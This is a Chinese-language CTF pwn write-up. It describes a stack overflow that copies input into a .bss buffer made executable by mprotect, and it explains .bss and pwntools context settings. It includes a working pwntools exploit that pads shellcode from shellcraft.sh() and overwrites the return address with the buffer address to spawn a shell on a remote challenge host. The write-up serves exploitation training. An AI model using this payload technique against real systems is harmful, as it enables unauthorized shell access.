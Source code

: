 很明显read有栈溢出，又复制到buff中
![](image-4.png)
buff又在.bass中
```bash
在采用段式内存管理的架构中（比如 intel 的 80x86 系统），bss 段（Block Started by Symbol segment）通常是指用来存放程序中未初始化的全局变量的一块内存区域，一般在初始化时 bss 段部分将会清零（bss 段属于静态内存分配，即程序一开始就将其清零了）。比如，在 C 语言程序编译完成之后，已初始化的全局变量保存在.data 段中，未初始化的全局变量保存在.bss 段中
简单来说，定义而没有赋初值的全局变量和静态变量 , 放在这个区域
```
但之前checksec发现有NX保护栈不可执行，又看到主函数有mprotect函数可以修改权限，也就是说在经过函数mprotect后，部分地址可以执行
![alt text](image-5.png)
用gdb调试看到0x404000后的地址有执行权限了，所以使用shellcode是可以用的
exp:
```python
from pwn import*
context(log_level = "debug", arch = 'amd64')
io=remote('node5.anna.nssctf.cn',27315)
buff_adr=0x04040A0
shellcode=asm(shellcraft.sh())
padding=0x100+0x8
payload=shellcode.ljust(padding,b'a')+p64(buff_adr)
io.sendline(payload)
io.interactive()

```
context 是 pwntools 用来设置环境的功能。在很多时候，由于二进制文件的情况不同，我们可能需要进行一些环境设置才能够正常运行exp，比如有一些需要进行汇编，但是32的汇编和64的汇编不同，如果不设置context会导致一些问题。

一般来说我们设置context只需要简单的一句话:

context(os='linux', arch='amd64', log_level='debug')

或者 context(os='linux', arch='amd64')
```bash
1. os设置系统为linux系统，在完成ctf题目的时候，大多数pwn题目的系统都是linux
2. arch设置架构为amd64，可以简单的认为设置为64位的模式，对应的32位模式是’i386’
3. log_level设置日志输出的等级为debug，这句话在调试的时候一般会设置，这样pwntools会将完整的io过程都打印下来，使得调试更加方便，可以避免在完成CTF题目时出现一些和IO相关的错误。
```
